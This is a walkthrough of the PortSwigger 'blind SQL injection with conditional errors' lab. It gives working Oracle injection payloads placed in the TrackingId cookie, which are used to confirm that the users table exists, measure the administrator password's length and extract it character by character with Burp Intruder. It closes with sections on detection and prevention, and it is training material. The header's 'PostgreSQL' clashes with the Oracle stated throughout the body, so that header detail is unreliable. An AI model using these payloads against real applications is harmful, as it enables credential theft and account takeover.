








# Blind SQL Injection With Conditional Errors

**Date:** July 2026<br>
**Author:** ShahinSecLab<br>
**Category:** SQL Injection<br>
**Vulnerability:** Blind SQL Injection<br>
**Difficulty:** Easy<br>
**Platform:** PortSwigger Web Security Academy<br>
**Database:** PostgreSQL<br>
**Tools:** Burp Suite Community Edition, Firefox

## Table of Contents

* [Introduction](#introduction)
* [Attack Flow](#attack-flow)
* [Why This Attack Works](#why-this-attack-works)
* [Lab Setup](#lab-setup)
* [Tools Used](#tools-used)
* [Prerequisites](#prerequisites)
* [Step 1 — Confirming the Injection Point](#step-1--confirming-the-injection-point)
* [Step 2 — Confirming the SQL Syntax Error](#step-2--confirming-the-sql-syntax-error)
* [Step 3 — Confirming the Query Was Executed](#step-3--confirming-the-query-was-executed)
* [Step 4 — Confirming the `users` Table Exists](#step-4--confirming-the-users-table-exists)
* [Step 5 — Creating a Conditional Error](#step-5--creating-a-conditional-error)
* [Step 6 — Checking if the `Administrator` User Exists](#step-6--checking-if-the-administrator-user-exists)
* [Step 7 — Finding the Password Length](#step-7--finding-the-password-length)
* [Step 8 — Extracting the Password Using Burp Intruder](#step-8--extracting-the-password-using-burp-intruder)
* [Step 9 — Logging in as Administrator](#step-9--logging-in-as-administrator)
* [How Defenders Can Catch This](#how-defenders-can-catch-this)
* [How to Prevent It](#how-to-prevent-it)
* [References](#references)
* [Lessons Learned](#lessons-learned)

## Introduction

This lab demonstrates a blind SQL injection vulnerability that uses conditional errors.

Unlike other blind SQL injection techniques, the application does not show different page content or use a time delay. Instead, it returns an error only when a SQL condition is true. When the condition is false, the page loads normally.

By comparing these two responses, it is possible to test SQL conditions and slowly gather information from the database.

In this lab, the backend database is Oracle, so the payloads use Oracle-specific functions such as `CASE WHEN`, `TO_CHAR()`, and the `dual` table.

## Attack Flow
```
Check if TrackingId is vulnerable
        │
        ▼
Find the SQL error
        │
        ▼
Test database queries
        │
        ▼
Find the users table
        │
        ▼
Check if administrator user exists
        │
        ▼
Find password length
        │
        ▼
Extract password characters
        │
        ▼
Login as administrator
```

## Why This Attack Works

The application uses the `TrackingId` cookie directly in an SQL query without properly handling user input.

Because the database is Oracle, a `CASE WHEN` statement can be used to create an error only when a condition is true. In this lab, `TO_CHAR(1/0)` is used to trigger a divide-by-zero error.

When the condition is true, the application returns an error page. When the condition is false, the page loads normally.

By comparing these responses, it is possible to test SQL conditions and slowly retrieve information from the database without seeing the actual data.

## Lab Setup

| Component | Details |
|---|---|
| Attacker Machine | Kali Linux |
| Target | PortSwigger Web Security Academy (Blind SQLi with conditional errors lab) |
| Tool Used | Burp Suite (Proxy, Repeater, Intruder) |
| Database | Oracle |
| Injection Point | `TrackingId` cookie |

## Tools Used

| Tool | Purpose |
|---|---|
| Burp Suite (Proxy) | Intercept requests and read/modify the `TrackingId` cookie |
| Burp Suite (Repeater) | Manually test injection payloads and read error vs. no-error responses |
| Burp Suite (Intruder) | Automate character-by-character password extraction |
| Web Browser | Access the lab front page and login page |

## Prerequisites

- Burp Suite Community/Pro set up with browser proxy
- Basic knowledge of Oracle SQL syntax (dual table, TO_CHAR, SUBSTR)
- Understanding of blind SQL injection concepts
- Access to the PortSwigger lab instance

## Step 1 — Confirming the Injection Point

I started the PortSwigger lab by visiting the shop's front page and capturing the request containing the `TrackingId` cookie using Burp Suite.

I sent the request to Burp Repeater and modified the `TrackingId` value manually to test whether it was vulnerable.

The original cookie value was:
```
TrackingId=znyh6jKGZvA9Lm21
```

I added a single quote at the end of the value:

```
TrackingId=znyh6jKGZvA9Lm21'
```

After sending the request, the application returned an error message.

<p align="center">
  
</p>

Then I added another quote to close the string:
```
TrackingId=znyh6jKGZvA9Lm21''
```

The error disappeared after sending the request again.

<p align="center">
  
</p>

This confirmed that the single quote was affecting the SQL query. The `TrackingId` cookie value was being used inside an SQL statement, which confirmed the presence of a SQL Injection vulnerability.

## Step 2 — Confirming the SQL Syntax Error

After finding the injection point, I wanted to make sure the error was actually coming from the SQL query and not from something else.

I used Burp Repeater to modify the `TrackingId` cookie and tested a simple subquery:

```sql
TrackingId=08ITKoawSkZtY2wE' ||(SELECT '')||'
```

**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT '')` | Executes a subquery that returns an empty string |
| `||` | Concatenates the subquery result with the remaining part of the query |
| `'` | Closes the injected SQL string to keep the query valid |

This request returned an error. I suspected that the query format was correct, but the database type might be causing the issue.

<p align="center">
  
</p>

To check this, I added the Oracle-specific `dual` table:

```sql
TrackingId=08ITKoawSkZtY2wE'||(SELECT '' FROM dual)||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT '' FROM dual)` | Executes a subquery that returns an empty string from the `dual` table |
| `||` | Concatenates the subquery result with the remaining part of the query |
| `'` | Closes the injected SQL string to keep the query valid |

This time, the request worked without any error.

From this test, I confirmed that the application was using an Oracle database. Oracle requires a table to be specified in a `SELECT` statement, and `dual` is a built-in table that can be used when no actual table is needed.

This confirmed that my input was being executed inside an SQL query and that the backend database was Oracle.

<p align="center">
  
</p>

## Step 3 — Confirming the Query Was Executed

After confirming that the backend was using Oracle, I wanted to verify that my injected query was actually being executed.

I modified the `TrackingId` cookie in Burp Repeater and referenced a table that does not exist:

```sql
TrackingId=08ITKoawSkZtY2wE'||(SELECT '' FROM not-a-real-table)||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT '' FROM not-a-real-table)` | Attempts to execute a subquery using a table that does not exist. This is commonly used to trigger a database error and confirm that the subquery is being executed. |
| `||` | Concatenates the subquery result with the remaining part of the query |
| `'` | Closes the injected SQL string to keep the query valid |

After sending the request, the application returned an error.

The only invalid part of the payload was the table name. Since Oracle tried to look up the table and failed, it confirmed that my injected query was being parsed and executed by the database.

This showed that I could successfully inject and run SQL queries through the `TrackingId` cookie.

<p align="center">
  
</p>

## Step 4 — Confirming the `users` Table Exists

Next, I checked whether the `users` table existed in the database.

I modified the `TrackingId` cookie in Burp Repeater and sent the following payload:

```sql
TrackingId=08ITKoawSkZtY2wE'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT '' FROM users WHERE ROWNUM = 1)` | Executes a subquery that returns an empty string from the first row of the `users` table. `ROWNUM = 1` limits the result to a single row. |
| `||` | Concatenates the subquery result with the remaining part of the query |
| `'` | Closes the injected SQL string to keep the query valid |

This time, the application did not return an error.

If the `users` table did not exist, Oracle would have returned an error. Since the request completed successfully, I confirmed that the table was present in the database.

I used `ROWNUM = 1` to make sure the subquery returned only one row. This kept the query valid even if the `users` table contained multiple records.

<p align="center">
  
</p>

## Step 5 — Creating a Conditional Error

Next, I tested whether I could make the application return an error only when a condition was true.

First, I sent the following payload in Burp Repeater:

```sql
TrackingId=08ITKoawSkZtY2wE'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)` | Executes a conditional subquery. Since `1=1` is always true, it runs `TO_CHAR(1/0)`, which causes a division-by-zero error. This is used to confirm that the SQL condition is being executed. |
| `CASE WHEN (1=1)` | Checks whether the condition is true. If the condition is true, the `THEN` part is executed. |
| `TO_CHAR(1/0)` | Attempts to convert the result of `1/0` into a string. The division by zero creates a database error. |
| `ELSE ''` | Returns an empty string if the condition is false. |
| `FROM dual` | Selects the value from Oracle's built-in `dual` table, which contains a single row. |
| `||` | Concatenates the subquery result with the remaining part of the query |
| `'` | Closes the injected SQL string to keep the query valid |

The application returned an error. Since `1=1` is true, Oracle executed `1/0`, which caused a divide-by-zero error.

<p align="center">
  
</p>

Next, I changed the condition to `1=2`:

```sql id="5ehp3l"
TrackingId=08ITKoawSkZtY2wE'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

This time, the request completed without any error because the condition was false, so the divide-by-zero code was never executed.

The different responses confirmed that I could control whether an error appeared by changing the condition. This gave me a reliable way to test true and false conditions, which is the basis of error-based blind SQL Injection.

<p align="center">
  
</p>

## Step 6 — Checking if the `Administrator` User Exists

After confirming that I could trigger errors based on conditions, I tested whether the `administrator` user existed in the `users` table.

I modified the `TrackingId` cookie in Burp Repeater and sent the following payload:

```sql id="y5m4qz"
TrackingId=08ITKoawSkZtY2wE'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')` | Executes a conditional subquery against the `users` table. It checks the administrator user and triggers an error when the condition is true. |
| `CASE WHEN (1=1)` | Checks whether the condition is true. Since `1=1` is always true, the `THEN` statement is executed. |
| `TO_CHAR(1/0)` | Forces a division-by-zero error and converts the result into a string. This error response is used as an indicator that the condition was true. |
| `ELSE ''` | Returns an empty string if the condition is false. |
| `FROM users` | Specifies that the query should run against the `users` table. |
| `WHERE username='administrator'` | Filters the query to execute only when the username matches the administrator account. |
| `||` | Concatenates the subquery result with the remaining part of the SQL query |
| `'` | Closes the injected SQL string to keep the query syntax valid |

The application returned an error.

This happened because the query found a row where the username was `administrator`, and the condition `1=1` was true, causing the divide-by-zero error to execute.

The error response confirmed that the `administrator` user exists in the `users` table.

<p align="center">
  
</p>

## Step 7 — Finding the Password Length

After confirming that the `administrator` user existed, I needed to find the length of the password.

I used the `LENGTH()` function to check the password size by testing different values:

```sql
TrackingId=08ITKoawSkZtY2wE'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')` | Executes a conditional subquery that checks the administrator user's password length. If the condition is true, it triggers an error. |
| `CASE WHEN LENGTH(password)>1` | Checks whether the administrator password length is greater than 1 character |
| `TO_CHAR(1/0)` | Forces a division-by-zero error when the condition is true. The error response confirms that the condition matched. |
| `ELSE ''` | Returns an empty string when the condition is false |
| `FROM users` | Specifies that the query is executed against the `users` table |
| `WHERE username='administrator'` | Targets only the user account with the username `administrator` |
| `||` | Concatenates the subquery result with the remaining part of the SQL query |
| `'` | Closes the injected SQL string to keep the query syntax valid |

The application returned an error, which meant the condition was true. This confirmed that the password length was greater than 1 character.

<p align="center">
  
</p>

I repeated this process until the error stopped appearing.

```sql id="s8j3nd"
TrackingId=08ITKoawSkZtY2wE'||(SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
In this lab, the error stopped after testing a length greater than 20, which means the password length was exactly 20 characters.

<p align="center">
  
</p>

## Step 8 — Extracting the Password Using Burp Intruder

To avoid testing every character manually, I used Burp Intruder to extract the password one character at a time.

I sent the working request to Intruder and used:

```sql
TrackingId=08ITKoawSkZtY2wE'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
**Breakdown**

| Part | Description |
|---|---|
| `08ITKoawSkZtY2wE` | The original tracking ID from the application |
| `'` | Closes the original string in the SQL query |
| `||` | Concatenates the original value with the result of another SQL expression |
| `(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')` | Executes a conditional subquery to check whether the first character of the administrator password matches the tested value |
| `CASE WHEN SUBSTR(password,1,1)='§a§'` | Checks if the first character of the administrator's password is equal to the character placed inside the payload marker |
| `SUBSTR(password,1,1)` | Extracts one character from the password. `1,1` means it starts from the first position and returns one character |
| `'§a§'` | Burp Suite Intruder payload marker. During testing, this value is replaced with different characters to find the correct password character |
| `TO_CHAR(1/0)` | Forces a division-by-zero error when the condition is true. The error response indicates that the tested character is correct |
| `ELSE ''` | Returns an empty string when the condition is false |
| `FROM users` | Specifies that the query runs against the `users` table |
| `WHERE username='administrator'` | Targets only the administrator user's password |
| `||` | Concatenates the subquery result with the remaining part of the SQL query |
| `'` | Closes the injected SQL string to keep the query syntax valid |

I marked the character position as a payload and used a simple list containing `a-z` and `0-9`.

| Setting     | Value             |
| ----------- | ----------------- |
| Attack Type | Sniper            |
| Payload     | a-z, 0-9          |
| HTTP 500    | Correct character |
| HTTP 200    | Wrong character   |

I checked the responses and found the character of administrator password that returned HTTP 500.

<p align="center">
  
</p>

Then I changed the `SUBSTR()` position from `1` to `2` and repeated the process until all 20 password characters were extracted.

- Password: 27..................

## Step 9 — Logging in as Administrator

After recovering the password, I opened the My account page and logged in using the recovered administrator credentials.

Username: administrator
Password: [recovered password]

<p align="center">
  
</p>

The login was successful, confirming that the password had been extracted correctly and the lab was solved.

<p align="center">
  
</p>

## How Defenders Can Catch This

This type of attack can often be identified by monitoring unusual requests and server responses.

- Watch for cookies or parameters containing SQL keywords such as `CASE WHEN`, `TO_CHAR`, `SUBSTR`, or `dual`.
- Look for many similar requests where only one character or value changes each time.
- Monitor repeated payloads that try to trigger database errors, such as `1/0` or `TO_CHAR(1/0)`.
- Check for a large number of HTTP 500 responses coming from the same user, session, or IP address.
- Review web server and database logs for repeated SQL injection attempts.

## How to Prevent It

This vulnerability can be prevented by following secure coding practices.

- Use parameterized queries or prepared statements
- Never build SQL queries by concatenating user input
- Validate and sanitize all user input
- Do not display database error messages to users
- Apply the principle of least privilege to database accounts
- Use a Web Application Firewall (WAF) to detect and block SQL injection attempts
- Regularly test the application for SQL injection vulnerabilities

## References

| Resource | Link |
|----------|------|
| PortSwigger Web Security Academy – Blind SQL injection with conditional errors | https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors |
| Oracle Database SQL Language Reference | https://docs.oracle.com/en/database/oracle/oracle-database/ |
| Burp Suite Documentation | https://portswigger.net/burp/documentation |
| OWASP Web Security Testing Guide (WSTG) | https://owasp.org/www-project-web-security-testing-guide/ |
| OWASP SQL Injection Prevention Cheat Sheet | https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html |


## Lessons Learned

- Error messages can reveal useful information about the backend database.
- Even without seeing database results, SQL injection can still be used to extract data.
- Small differences in application responses can help confirm SQL conditions.
- Burp Repeater is useful for testing payloads manually.
- Burp Intruder makes it easier to automate repeated requests and recover data.
- Proper input handling and parameterized queries are the best defense against SQL injection.
